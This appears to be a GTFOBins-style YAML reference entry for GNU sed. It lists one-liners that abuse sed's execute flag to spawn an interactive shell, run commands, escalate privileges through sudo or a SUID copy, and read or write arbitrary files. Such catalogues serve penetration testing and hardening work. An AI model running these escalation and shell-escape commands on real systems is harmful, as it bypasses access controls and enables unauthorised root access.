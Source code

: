 ```yaml
---
functions:
  execute-interactive:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n "1e bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
  execute-non-interactive:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  sudo-enabled:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
  suid-enabled:
    - description: GNU version only. Also, this requires `bash`.
      code: ./sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n "1s/.*/data/w $LFILE" /etc/hosts
---
```

